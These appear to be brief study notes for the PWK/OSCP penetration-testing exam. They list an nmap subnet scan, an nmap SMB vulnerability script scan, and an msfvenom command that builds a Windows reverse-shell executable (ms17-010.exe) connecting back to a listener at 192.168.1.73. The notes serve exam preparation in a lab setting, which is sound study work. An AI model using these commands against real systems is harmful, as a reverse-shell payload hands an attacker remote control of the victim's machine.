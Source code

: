 # pwk2
prepare pwk 2 exam<br>
nmap <br>
sudo nmap -A -p80 --open 10.x.x.0/24 -oG nmap-scan_10.x.x.x-254

check smb vuln
nmap --script smb-vuln* -p 139,445 -Pn ip

ms17-010.exe is the payload which we generate with msfvenom:
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
